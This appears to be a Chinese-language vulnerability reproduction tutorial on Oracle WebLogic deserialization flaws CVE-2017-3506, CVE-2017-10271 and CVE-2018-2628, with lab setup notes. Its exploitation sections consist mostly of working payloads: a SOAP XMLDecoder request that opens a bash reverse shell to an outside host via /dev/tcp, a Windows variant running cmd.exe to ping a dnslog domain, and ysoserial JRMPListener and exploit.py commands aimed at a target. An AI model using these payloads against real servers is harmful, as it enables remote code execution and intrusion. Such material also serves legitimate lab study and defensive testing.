









# CVE-2017-3506 & CVE-2017-10271

---

**推荐工具**

[weblogic测试工具](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Ftangxiaofeng7%2FWeblogic-scan)



---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- win7
- weblogic : 10.3.6.0
- centos7

---


2018年1月1日-3日大面积爆发的基于CVE-2017-10271的Java反序列化漏洞植入门罗币挖矿程序攻击的事件被大家所熟知，这个漏洞的前身是`CVE-2017-3506`，都是来源于`wls-wsat` 这个组件，oracle官方就该漏洞发布的补丁，采用了黑名单的修复方式，没有彻底将该漏洞进行修复。攻击人员只是将用于CVE-2017-3506漏洞的exp脚本简单修改一下，就又能攻击利用了，才有了后来的CVE-2017-10271。

**影响版本**

- weblogic ：
  - 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1 , 12.2.1.2

**原理简析**
- 漏洞触发位置：`wls-wsat.war`
- 漏洞触发URL：`/wls-wsat/CoordinatorPortType（POST）`
- 漏洞的本质：构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞。


**漏洞复现**

1. 安装weblogic

[下载地址](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html)

这里选择存在漏洞版本:

- Oracle WebLogic Server 10.3.6

2. 安装java

[下载地址](https://www.oracle.com/java/technologies/javase-downloads.html)

建议安装 java 1.8.0


**漏洞利用**

1. 访问目标url `http://192.168.xxx.xxx:7001/wls-wsat/CoordinatorPortType` 存在以下页面即可能存在该漏洞。



2. linux环境下 测试poc

**poc**

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: xxxxxxx:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

- [搭建教程](https://www.cnblogs.com/zhangan/p/10862585.html)



也可以选择docker搭建

- [教程地址](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)



执行poc 上线




2. Windows环境

**POC:**
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: xxxxxxx:7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: text/xml
Content-Length: 830

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>C:\\windows\\system32\\cmd.exe</string>
                </void>
<void index="1">
                  <string>/c</string>
                </void>
<void index="2">
                  <string>ping vpq7z7.dnslog.cn</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```



---

# Weblogic命令执行漏洞（CVE-2018-2628）复现

---

**推荐工具**

[weblogic测试工具](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Ftangxiaofeng7%2FWeblogic-scan)


---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- win7
- weblogic : 10.3.6.0
- centos7
- 利用环境
  - java8
  - python2

---

在 WebLogic 里，攻击者利用其他rmi绕过weblogic黑名单限制，然后在将加载的内容利用readObject解析，从而造成反序列化远程代码执行该漏洞，该漏洞主要由于T3服务触发，所有开放weblogic控制台7001端口，默认会开启T3服务，攻击者发送构造好的T3协议数据，就可以获取目标服务器的权限。

**基本原理**

- **序列化**：简单来说把对象转换为字节流过程(通过ObjectOutputStream类的writeObject)
- **反序列化**：就是把字节流恢复为对象的过程(通过ObjectInputStream类的readObject()方法)
- **RMI**：远程方法调用(Remote Method Invocation)。简单来说，除了该对象本身所在的虚拟机，其他虚拟机也可以调用该对象的方法。
- **JRMP**:java远程消息交换协议JRMP（Java Remote Messaging Protocol）


`打个比喻就是相当于你在网上买个玩具房子，他不可能直接快递给你邮个房子，先把房子拆开邮走(序列化)，然后收到时在拼装成一个房子(反序列化)。在JAVA中，对象的序列化和反序列化被广泛的应用到RMI（远程方法调用）及网络传输中。`

**漏洞复现**

1. 安装weblogic

[下载地址](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html)

这里选择存在漏洞版本:

- Oracle WebLogic Server 10.3.6

2. 安装java

[下载地址](https://www.oracle.com/java/technologies/javase-downloads.html)

建议安装 java 1.8.0


**漏洞利用**

- windows

  首先需要启动一个`JRMP Server`，可以利用`ysoserial`

  - [ysoserial 下载地址](https://github.com/brianwrf/ysoserial/releases/tag/0.0.6-pri-beta)

  **带poc利用**
  - [ysoserial-cve-2018-2628](https://github.com/tdy218/ysoserial-cve-2018-2628)

  利用`ysoserial`启动一个 `JRMP Server`

**命令格式**

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [监听端口] CommonsCollections1 "命令"
```



然后利用该`exp`进行攻击,可见成功上传文件

[exp下载地址](https://www.exploit-db.com/exploits/44553)

**执行命令**

```
python2 exploit.py [目标ip] [目标port] [ysoserial路径] [JRMPListener ip] [JRMPListener port] [JRMPClient]

```


**Using java.rmi.registry.Registry**

```
python2 .\exp.py 192.168.91.131 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.91.1 9633 JRMPClient
```

**Using java.rmi.activation.Activator**

```
python2 .\exp.py 192.168.91.131 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.91.1 9633 JRMPClient2

```



- linux

- [搭建教程](https://www.cnblogs.com/zhangan/p/10862585.html)


也可以选择docker搭建

- [教程地址](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)

继续使用 `ysoserial` 构造 `JRMPListener` 运行。


